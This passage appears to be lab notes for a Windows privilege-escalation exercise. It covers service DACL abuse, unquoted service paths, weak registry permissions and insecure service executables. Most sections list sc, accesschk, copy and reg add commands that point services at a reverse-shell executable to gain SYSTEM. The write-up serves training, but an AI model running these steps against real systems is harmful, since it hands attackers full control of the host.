 listing info about service:
`sc qc daclsvc`

changing BINARY_PATH_NAME:
``sc config daclsvc binpath= "\"C:\PrivEsc\reverse.exe\""``

Now start the service:
`net start daclsvc`

## Unquoted service Path
Query the "unquotedsvc" service and note that it runs with SYSTEM privileges (SERVICE\_START\_NAME) and that the BINARY\_PATH\_NAME is unquoted and contains spaces.

`sc qc unquotedsvc`

![](https://i.imgur.com/9aUQogz.png)

Using accesschk.exe, note that the BUILTIN\\Users group is allowed to write to the C:\\Program Files\\Unquoted Path Service\\ directory:

`C:\PrivEsc\accesschk.exe /accepteula -uwdq "C:\Program Files\Unquoted Path Service\"`
![](https://i.imgur.com/UX8uM4j.png)

*You can see the RW(Read Write) permission to Users in that directory*

Copy reverse shell to service path:
`copy C:\PrivEsc\reverse.exe "C:\Program Files\Unquoted Path Service\Common.exe"`

So now start the service 
`net start unquotedsvc`

## Weak Registry Permissions
Query the "regsvc" service and note that it runs with SYSTEM privileges (SERVICE\_START\_NAME).
`sc qc regsvc`

Using accesschk.exe, note that the registry entry for the regsvc service is writable by the "NT AUTHORITY\\INTERACTIVE" group (essentially all logged-on users):
`C:\PrivEsc\accesschk.exe /accepteula -uvwqk HKLM\System\CurrentControlSet\Services\regsvc`
Overwrite the ImagePath registry key to point to the reverse.exe executable you created:
```cmd
reg add HKLM\SYSTEM\CurrentControlSet\services\regsvc /v ImagePath /t REG_EXPAND_SZ /d C:\PrivEsc\reverse.exe /f
```

Start a listener on Kali and then start the service to spawn a reverse shell running with SYSTEM privileges:
``net start regsvc``

## Insecure Service Executables

`sc qc filepermsvc`
we can see it has SERVICE_START_NAME privileges

Check If BINARY_PATH_NAME is writable by everyone:
``C:\PrivEsc\accesschk.exe /accepteula -quvw "C:\Program Files\File Permissions Service\filepermservice.exe"``
